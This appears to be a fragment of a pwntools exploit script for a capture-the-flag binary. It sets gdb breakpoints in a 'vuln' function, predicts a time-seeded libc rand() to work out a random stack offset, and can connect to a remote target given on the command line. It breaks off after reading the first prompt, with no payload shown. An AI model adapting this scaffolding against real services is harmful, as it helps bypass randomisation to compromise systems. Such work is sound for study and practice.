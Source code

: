 ```

gdb_script2 = """
b *vuln+62
b *vuln+189
c
"""

# gdb_script = """
# b *main
# b *vuln
# b *vuln+104
# c
# """


# FullPath
print(f"Program path is: {PROGRAM_PATH}")
print("____________________________________")

# Random seed
# TODO: We are 1 second off! CHECK

libc = CDLL("libc.so.6")  # glibc on Linux
libc.srand.argtypes = [c_uint]
libc.rand.restype = c_int
libc.rand_r.argtypes = [
    c_uint.__class__,
]  # see rand_r example below

seed = math.trunc(time.time())
print(f"Time now is: {seed}")
print(f"Time now is: {hex(seed)}")
# Basic (global-state) rand/srand — same semantics as C
libc.srand(seed)
x = libc.rand()  # first C rand()
print(f"Random seeded with timeNow is: {x}")
print(f"Random seeded with timeNow is: {hex(x)}")

offset = x % 500
print(f"offset R is: {offset}")
print(f"offset R is: {hex(offset)}")
byte_align = 16 - (offset % 16)
print(f"offset R mod 16 is: {offset % 16}")


def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([PROGRAM_PATH] + argv, gdbscript=gdb_script2, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
        return process([PROGRAM_PATH] + argv, *a, **kwargs)


io = start()
res = io.recvuntil(delims=":")
print("____________________________________")


print("____________________________________")
print(res)

print("____________________________________")
```